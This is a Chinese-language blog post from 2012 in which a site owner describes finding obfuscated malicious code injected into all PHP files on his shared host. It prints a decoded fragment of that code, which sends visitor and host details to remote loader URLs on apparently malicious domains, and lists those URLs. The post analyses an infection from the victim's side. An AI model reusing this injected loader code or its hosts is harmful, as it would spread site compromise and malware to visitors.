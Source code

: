 ```yaml
---
id: 1848
title: 博客被注入恶意代码
date: 2012-07-03T16:48:11+00:00
author: tanglei
layout: post
guid: http://www.tanglei.name/?p=1848
duoshuo_thread_id:
  - 1351844048792453409
enable_highlight:
  - '<link rel="stylesheet" href="../wp-content/blogresources/highlightconfig/highlight.default.min.css"><script src="../wp-content/blogresources/highlightconfig/jquery-2.1.4.min.js"></script><script src="../wp-content/blogresources/highlightconfig/enable_highlight.js"></script>'
categories:
  - 我做站长
  - 经验技巧
tags:
  - 入侵
  - 恶意代码
  - 旁注
  - 网络安全
---
```

这两天准备更新下本博客的评论，加上诸如评论啦、多说等插件，发现某些php文件貌似不太对劲。今天又收到了google的名为“Malware notification regarding tanglei.name”的邮件，再进博客后台，发现博客所有的php文件被感染，诸如下图一些加密代码。用chrome访问博客时也被拦截，提示“警告：此页面包含危险内容！**[www.tanglei.name](http://www.tanglei.name/)** 包含恶意软件。如果您访问此网站，您的计算机可能会中毒。……”

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入木马.jpg"><img class="aligncenter  wp-image-1849" title="植入木马" src="/wp-content/uploads/2012/07/植入木马.jpg" alt="网页包含恶意软件"  data-pinit="registered" /></a>
</p>

再SSH进入主机，发现该主机下其他域名的所有的php文件都植入了这些代码。如图所示，我的i3zhai.com也中招了.

<p style="text-align: center;">
  <a href="/wp-content/uploads/2012/07/植入恶意代码.jpg"><img class="aligncenter  wp-image-1850" title="植入恶意代码" src="/wp-content/uploads/2012/07/植入恶意代码.jpg" alt="网页包含恶意软件"  data-pinit="registered" /></a>
</p>

base64解码以上植入的恶意代码，发现以上恶意代码跟目标主机相关联的关键的几行代码:

```php
$_SERVER['s_p1']=$mz;  $_SERVER['s_b1']=$bot;  $_SERVER['s_t1']=1200;  $_SERVER['s_d1']=base64_decode('aHR0cDovL2VuczEyMnp6emRkYXp6LmNvbS8=');  $d='?d='.urlencode($_SERVER["HTTP_HOST"])."&p=".urlencode($_SERVER["PHP_SELF"])."&a=".urlencode($_SERVER["HTTP_USER_AGENT"]); 
$_SERVER['s_a1']=base64_decode('aHR0cDovL3BtZ2N6a2luZml1bS5ydS9nX2xvYWQucGhw').$d;  $_SERVER['s_a2']=base64_decode('aHR0cDovL2luZmlwbWcucnUvZ19sb2FkLnBocA==').$d;  
$_SERVER['s_script']="pmg.php?d=x";  
```

关键url还得base64解码，得到的url如下：

```php
http://pmgczkinfium.ru/g_load.php
http://infipmg.ru/g_load.php
http://ens122zzzddazz.com/ 
```

看来就是跟这些相关了。查了这几个url，发现也有其他站点中招了。
  
目前我能想到的解决方案就是写个脚本，在后台跑一下，把所有php中这些代码都删除掉。不过这个有风险啊，一是不知道后台允许我执行这样的脚本么，而是操作这些代码要是有个什么差错的话就惨了。目前联系了主机提供商，看看他们有什么解决方案。
  
暂且就不管了吧。如果你现在能看到这篇文章就是忽略浏览器的拦截了。呵呵。待解决……
